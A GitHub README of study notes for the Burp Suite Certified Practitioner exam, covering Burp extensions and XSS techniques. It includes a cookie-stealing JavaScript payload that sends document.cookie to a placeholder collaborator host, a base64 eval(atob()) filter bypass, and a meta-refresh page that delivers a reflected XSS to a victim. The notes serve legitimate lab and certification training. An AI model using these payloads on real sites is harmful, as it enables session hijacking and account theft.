 # <img src="https://icons.iconarchive.com/icons/goescat/macaron/1024/burp-suite-icon.png" width=25> BSCP Methodology

## Table of Contents
* [Useful Burp extensions](https://github.com/dhmosfunk/BSCP/blob/main/README.md#useful-burp-extensions-some-of-them-requires-burpsuite-pro)
* [Cross-Site Scripting Section](https://github.com/dhmosfunk/BSCP/blob/main/README.md#cross-site-scripting-section)
   * [Bypass restrictions method 1](https://github.com/dhmosfunk/BSCP/blob/main/README.md#bypass-restrictions-method-1)
* [Exploit Server Section](https://github.com/dhmosfunk/BSCP/blob/main/README.md#exploit-server-section)
  * [Send exploit to victim (Reflected XSS in search bar)](https://github.com/dhmosfunk/BSCP/blob/main/README.md#send-exploit-to-victim-reflected-xss-in-search-bar)
* [SQL Injection Section](https://github.com/dhmosfunk/BSCP/blob/main/README.md#sql-injection-section)

## Useful Burp extensions (some of them requires burpsuite pro)
- Hackvertor
- Copy As Python-Requests
- Java Deserialization Scanner | [ysoserial.jar](https://github.com/frohoff/ysoserial) for manual exploitation<b>(prefer because sometime this extension it doesn't work as it should)</b>
- HTTP Request Smuggler


## Cross-Site Scripting Section
You can find an injection point with some payloads from this repository - [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

### Bypass restrictions method 1
Sometimes we found a XSS injection point but with some keyword restrictions, so we have to bypass these restrictions with some techniques like below.
1. Generate the base64 payload

```bash
echo -n "document.location = 'http://<BURP-COLLABORATOR.NET>/?cookie='+document.cookie" |base64
```

2. Insert the base64 payload into atob function
```javascript
eval(atob("BASE64-PAYLOAD"))
<script>eval(atob("BASE64-PAYLOAD"))</script>
```

## Exploit Server Section
#### Send exploit to victim (Reflected XSS in search bar)
With <b>`<meta>`</b> html tag we can redirect the "victim" to our javascript injected search query.
```html
<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?search=injection_here' />

<!-- ALL TOGETHER BELOW-->
<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?SearchTerm=aa","fd8xsw5l":eval(atob("BASE64-PAYLOAD"))}//' />
```

## SQL Injection Section
